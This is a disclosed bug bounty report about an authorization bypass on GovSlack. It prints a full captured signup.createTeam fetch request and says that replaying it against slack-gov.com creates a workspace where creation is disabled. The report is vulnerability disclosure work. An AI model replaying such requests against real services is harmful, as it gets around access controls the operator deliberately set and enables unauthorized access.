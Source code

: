 # Unauthorized access to GovSlack

## Report Details
- **Report ID**: 1758174
- **URL**: https://hackerone.com/reports/1758174
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-11-02T02:19:40.145Z
- **Disclosed**: 2023-05-19T20:29:25.445Z

## Reporter
- **Username**: violet
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
Head to slack.com (I use firefox), login as a user that hasn't used slack, create a workspace, copy the payload as fetch.  In my case:

```
await fetch("https://slack.com/api/signup.createTeam?_x_id=noversion-1667355054.372", {
    "credentials": "include",
    "headers": {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:106.0) Gecko/20100101 Firefox/106.0",
        "Accept": "*/*",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "multipart/form-data; boundary=---------------------------34111059701841183173198228768",
        "Sec-Fetch-Dest": "empty",
        "Sec-Fetch-Mode": "cors",
        "Sec-Fetch-Site": "same-origin"
    },
    "referrer": "https://slack.com/get-started",
    "body": "-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"email_misc\"\r\n\r\ntrue\r\n-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"tz\"\r\n\r\nAmerica/Los_Angeles\r\n-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"locale\"\r\n\r\nen-US\r\n-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"last_tos_acknowledged\"\r\n\r\ntos_mar2018\r\n-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"login\"\r\n\r\ntrue\r\n-----------------------------34111059701841183173198228768\r\nContent-Disposition: form-data; name=\"in_setup_experiment\"\r\n\r\ntrue\r\n-----------------------------34111059701841183173198228768--\r\n",
    "method": "POST",
    "mode": "cors"
});
```

Login to slack-gov.com, where the option to create a workspace for new users is disabled.  Send this same fetch request, replacing slack.com with slack-gov.com.  In my case, the workspace created is viomck.slack-gov.com.

## Impact

Unauthorized access to GovSlack.

## Attachments
No attachments
